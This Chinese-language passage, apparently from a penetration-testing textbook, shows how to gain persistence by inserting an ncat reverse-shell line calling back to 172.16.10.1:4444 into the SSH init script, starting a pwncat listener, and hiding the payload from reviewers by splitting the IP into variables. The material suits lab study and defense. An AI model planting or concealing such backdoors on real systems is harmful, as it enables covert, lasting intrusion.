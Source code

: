 ```
      log_end_msg 1 || true
    fi
    ;;
`--snip--` 
```

清单 10-1：SSH 服务的 init 脚本

如你所见，该脚本的核心使用 case 语句根据一些输入来决定执行哪一组命令。例如，启动、停止和重新加载 SSH 服务时，我们可以通过以下方式调用该脚本：

```
# **/etc/init.d/ssh start**
# **/etc/init.d/ssh stop**
# **/etc/init.d/ssh reload**
# **/etc/init.d/ssh force-reload** 
```

系统配置为在启动时启动 SSH，如果我们能将自定义 bash 逻辑插入脚本中，我们的代码将在每次调用该脚本时执行。因此，如果我们能够从 init 脚本创建反向 shell，我们可以在完整重启后将服务器重新连接到我们的监听器，只要网络可用。

让我们试试这个。通过将反向 shell 有效载荷插入*/etc/init.d/ssh*文件，如清单 10-2 所示。

```
`--snip--`
start)
  check_privsep_dir
  check_for_no_start
  check_dev_null
  log_daemon_msg "Starting OpenBSD Secure Shell server" "sshd" || true
  if start-stop-daemon --start --quiet --oknodo --chuid 0:0 --pidfile
/run/sshd.pid --exec /usr/sbin/sshd -- $SSHD_OPTS; then
    log_end_msg 0 || true
  else
    log_end_msg 1 || true
  fi
 **ncat 172.16.10.1 4444 -e /bin/bash 2> /dev/null &**
  ;;
`--snip--` 
```

清单 10-2：注入到/etc/init.d/ssh 中的反向 shell 有效载荷

接下来，启动监听器以在 Kali 上接收反向 shell。你可以使用 pwncat、Ncat、Netcat 或任何你偏好的监听器。

```
$ **pwncat-cs -l -p 4444**
```

最后，切换回目标系统并运行服务命令以启动 SSH 服务器守护进程：

```
# **service ssh start**
```

你应该看到反向 shell 连接到监听器。

注意，当你引入明显的恶意命令，如反向 shell 有效载荷时，应尽量让这些命令不可见。例如，尝试将监听器的远程 IP 地址拆分成多个变量，使其与脚本的其余部分融合，以免引起任何正在查看该脚本的人的注意。
